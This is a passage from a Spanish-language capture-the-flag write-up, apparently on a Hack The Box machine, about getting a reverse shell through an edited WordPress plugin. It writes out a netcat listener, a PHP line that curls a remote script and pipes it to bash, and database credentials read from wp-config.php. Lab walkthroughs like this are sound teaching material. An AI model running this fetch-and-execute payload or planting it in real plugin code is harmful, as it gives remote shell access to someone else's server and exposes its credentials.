 Levantamos un servidor web con **Python**: 

```bash
❭ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Y nos ponemos en escucha con **netcat** en el puerto **4433**: `nc -lvp 4433`. 

Finalmente editamos el plugin:

```php
...
// need to make it secure

// Leera el contenido del archivo rev.sh y con "| bash" lo interpretara.
system("curl http://10.10.14.17:8000/rev.sh | bash");

?>
```

Simplemente hacemos una petición hacia el archivo y obtenemos nuestra reverse Shell:

![112bash_wwwdata_RevSH](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/enterprise/112bash_wwwdata_RevSH.png)

Hagamos tratamiento de la TTY para asi poder hacer `CTRL+C` sin miedo a perder la terminal, además de poder movernos entre comandos y tener historial :)

* [**S4vitar** explica en este video como obtener una Shell completamente interactiva (tratamiento TTY)](https://www.youtube.com/watch?v=7L1WNU7fBec&t=5004s).

Listooooos, a enumerar...

...

### Reverse Shell www-data WordPress

En el directorio `/var/www/html` tenemos los objetos de **WordPress**, validando el contenido del archivo `wp-config.php` (el que hace la conexión con la base de datos), obtenemos las credenciales del usuario **root**, pero de la base de datos, ya jugamos con la base de datos asi que no es interesante, pero las credenciales si lo son, guardémoslas por si algo :)

```php
...
/** MySQL database username */
define('DB_USER', 'root');

/** MySQL database password */
define('DB_PASSWORD', 'NCC-1701E');
...
```
